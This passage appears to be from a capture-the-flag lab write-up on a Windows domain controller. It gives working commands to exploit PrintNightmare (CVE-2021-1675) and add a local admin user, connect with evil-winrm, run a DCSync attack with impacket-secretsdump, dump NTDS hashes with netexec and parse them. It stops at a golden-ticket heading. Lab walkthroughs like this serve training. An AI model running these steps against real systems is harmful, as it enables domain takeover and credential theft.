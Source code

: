 4.  **Import the exploit Module**:
    -   `Import-Module .\CVE-2021-1675.ps1`
    -   {{< figure src="/ox-hugo/2024-11-03-160025_.png" >}}

5.  **Add our new user with PrintNightmare PowerShell PoC**:
    -   `Invoke-Nightmare -NewUser "bloodstiller" -NewPassword "Pwnd1234!" -DriverName "PrintIt"`
    -   {{< figure src="/ox-hugo/2024-11-03-160107_.png" >}}

6.  **Confirm our user added is added**:
    -   `net user bloodstiller`
    -   {{< figure src="/ox-hugo/2024-11-03-160139_.png" >}}
    -   We can see we have `local admin` privs.


#### Connecting as our new local-admin user: {#connecting-as-our-new-local-admin-user}

-   **I connect usin** `evil-winrm`
-   {{< figure src="/ox-hugo/2024-11-03-160239_.png" >}}

-   **As we have local admin privs we can retrieve the flag from the administrator folder**:
    -   {{< figure src="/ox-hugo/2024-11-03-160321_.png" >}}


### Privilege escalation Route 2 svc_loanmgr: {#privilege-escalation-route-2-svc-loanmgr}


#### Performing a DC-SYNC attack as svc_loanmgr: {#performing-a-dc-sync-attack-as-svc-loanmgr}

-   **We perform the dc-sync attack using** `svc_loanmgr` **account and** `impacket-secretsdump`:
    -   `impacket-secretsdump $domain/$user:$pass@$box -dc-ip $box`
    -   {{< figure src="/ox-hugo/2024-11-04-074618_.png" >}}
    -   All of the same steps can be peformed to create a golden ticket in the persistence section now etc.




## 5. Persistence: {#5-dot-persistence}


### Dumping NTDS.dit/DC-SYNC attack: {#dumping-ntds-dot-dit-dc-sync-attack}

-   **As we are local admin we can perform a DCSync Attack using netexec**:
    -   `netexec smb $box -u $user -p $pass -M ntdsutil`
    -   {{< figure src="/ox-hugo/2024-11-03-163117_.png" >}}

-   **Extract all hashes from netexec**
    -   `for file in /home/kali/.nxc/logs/*.ntds; do cat "$file" | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'; printf '\n'; done`
    -   {{< figure src="/ox-hugo/2024-11-03-163327_.png" >}}


### Creating a Kerberos Golden Ticket: {#creating-a-kerberos-golden-ticket}
